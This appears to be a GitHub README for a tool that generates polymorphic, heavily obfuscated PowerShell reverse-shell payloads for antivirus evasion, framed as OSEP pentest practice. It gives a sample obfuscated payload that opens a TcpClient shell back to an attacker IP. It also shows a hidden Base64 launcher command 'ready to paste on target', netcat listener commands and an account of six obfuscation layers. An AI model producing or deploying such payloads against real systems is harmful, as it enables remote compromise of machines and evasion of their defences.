

# RevShellGenerator

## Demo



---

A **polymorphic PowerShell reverse shell generator** that produces a unique, heavily obfuscated payload on every run — no two outputs look alike. Designed to mimic the obfuscation engine from [powershellforhackers.com/tools/revshell](https://powershellforhackers.com/tools/revshell).

> ⚠️ **For authorized penetration testing only.** Use responsibly and only against systems you have explicit permission to test.

---

## Features

- **Random variable names** — every variable is regenerated per run
- **Shuffled-alphabet character-index lookups** — cmdlets are never written in plaintext
- **Random char arithmetic** — `[char](m*v/m)` or `[char](m+v-m)` styles
- **ASCII int-array encoding** — strings encoded as integer pipelines
- **Random buffer-size expressions** — e.g. `(65536-1)`, `(0x0000+65535)`
- **Random `ForEach-Object` / `%{}` pipeline padding** — adds noise to the flow
- **Optional Base64 launcher** — one-liner ready for copy-paste on target

---

## Requirements

- Python 3.6+
- No external dependencies — uses only the standard library

---

## Installation

Copy to `/usr/local/bin` for system-wide access:

```bash
sudo cp RevShellGenerator /usr/local/bin/RevShellGenerator
sudo chmod +x /usr/local/bin/RevShellGenerator
```

Then run from anywhere:

```bash
RevShellGenerator --ip <LHOST> --port <LPORT>
```

---

## Usage

```
RevShellGenerator --ip LHOST --port LPORT [--no-color] [--out FILE] [--b64]
```

| Flag | Description |
|------|-------------|
| `--ip LHOST` | Your listener IP address (**required**) |
| `--port LPORT` | Your listener port (**required**) |
| `--no-color` | Disable colored terminal output |
| `--out FILE` | Save the generated payload to a file |
| `--b64` | Also print a Base64-encoded one-liner launcher |

---

## Examples

### Basic — generate and print payload

```bash
RevShellGenerator --ip 192.168.45.155 --port 4444
```

### With Base64 launcher (ready to paste on target)

```bash
RevShellGenerator --ip 10.10.10.1 --port 9001 --b64
```

Output includes a `powershell -NoP -NonI -W Hidden -Enc <BASE64>` one-liner you can paste directly into a cmd shell or web shell.

### Save payload to a file

```bash
RevShellGenerator --ip 10.10.10.1 --port 443 --out shell.ps1
```

### Save payload + Base64 launcher to a file

```bash
RevShellGenerator --ip 10.10.10.1 --port 443 --out shell.ps1 --b64
```

### Disable colors (e.g. for piping or logging)

```bash
RevShellGenerator --ip 192.168.1.50 --port 1337 --no-color
```

---

## Sample Output

Every run produces a structurally different payload. Here's a simplified example of the kind of obfuscation generated:

```powershell
$xKpRtV = & (("qZmW...")[3,7,1,...] -join '') $(
  [char](83*83/83)+[char](0+121-0)+...
)("192.168.45.155", "4444");

$nBvLq = ($xKpRtV.GetStream());
[byte[]]$wJmCs = 0..$((65536-1))|ForEach-Object{$_}|%{0};

while(($oYpRs = $nBvLq.Read($wJmCs, 0, $wJmCs.Length)) -ne 0){
    $tQxMn = (& (("aLpW...")[5,2,8,...] -join '') -TypeName ...
    ...
}
```

The actual output is far more obfuscated — this is a simplified illustration.

---

## Setting Up a Listener

Use `nc` or `rlwrap nc` on your attacker machine before executing the payload:

```bash
nc -lvnp 4444
```

Or with readline support for a better shell experience:

```bash
rlwrap nc -lvnp 4444
```

---

## How It Works

The generator applies six independent obfuscation layers simultaneously:

1. **Variable randomization** — all PS variable names are replaced with random alphanumeric strings on each run.
2. **Shuffled alphabet lookups** — cmdlets like `New-Object` and `Invoke-Expression` are never written directly; they are reconstructed from a shuffled character alphabet using computed indices.
3. **Char arithmetic** — class names like `System.Net.Sockets.TcpClient` are broken into `[char]` expressions using multiplication or addition that cancel to the original ASCII value.
4. **Int-array encoding** — method calls like `.Flush()` and `.Close()` are encoded as ASCII integer arrays piped through `[char][int]$_` conversions.
5. **Buffer size variation** — the 65535 buffer size is expressed in multiple equivalent forms chosen randomly.
6. **Pipeline padding** — `ForEach-Object` and `%{}` variants are randomly mixed throughout the pipeline to increase pattern entropy.

---

## Context

This tool was developed as part of the **OSEP (Offensive Security Experienced Penetration Tester)** course preparation, specifically for practicing AV evasion and payload obfuscation techniques covered in the curriculum.
